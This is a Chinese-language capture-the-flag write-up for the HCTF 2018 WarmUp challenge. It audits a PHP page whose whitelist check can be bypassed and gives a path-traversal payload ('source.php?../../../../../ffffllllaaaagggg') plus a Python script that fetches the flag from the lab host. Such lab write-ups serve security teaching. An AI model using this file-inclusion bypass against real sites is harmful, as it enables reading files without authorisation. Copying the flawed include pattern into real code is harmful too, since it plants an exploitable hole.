 # 分析

来自[[HCTF 2018]WarmUp](https://buuoj.cn/challenges#[HCTF%202018]WarmUp)，代码审计

页面是一张图片，查看源码，提示访问source.php

![image-20240625163859140](image/image-20240625163859140.png)

代码审计，分析绕过

```php
<?php
  highlight_file(__FILE__);
  //定义一个类
  class emmm
  {
    //定义一个检查函数
    public static function checkFile(&$page)
    { 
      $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
      //第一个过滤，判断是否为空，为字符串
      if (! isset($page) || !is_string($page)) {
        echo "you can't see it";
        return false;
      }
      //第二个过滤，判断参数是否存在于关联数组中
      if (in_array($page, $whitelist)) {
        return true;
      }
      //过滤出file参数中遇到第一个?前的字符串
      $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
      );
      //检查是否存在数组中
      if (in_array($_page, $whitelist)) {
        return true;
      }
      //先使用urldecode解码，再进行过滤，如上
      $_page = urldecode($page);
      $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
      );
      //检查是否存在数组中
      if (in_array($_page, $whitelist)) {
        return true;
      }
      echo "you can't see it";
      return false;
    }
  }
  if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
  ) {
      include $_REQUEST['file'];
      exit;
  } else {
      echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
  }  
?> 
```

又看到了hint.php，访问得到提示flag的文件名可能是ffffllllaaaagggg

![image-20240625165002415](image/image-20240625165002415.png)

payload=`http://94f0791c-c6e0-45f3-b927-8f12d929ab9c.node5.buuoj.cn:81/?file=source.php?../../../../../ffffllllaaaagggg`

# exp

```python
import requests
import re

url = "http://94f0791c-c6e0-45f3-b927-8f12d929ab9c.node5.buuoj.cn:81/"
kw = {
	'file':'source.php?../../../../../ffffllllaaaagggg'
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

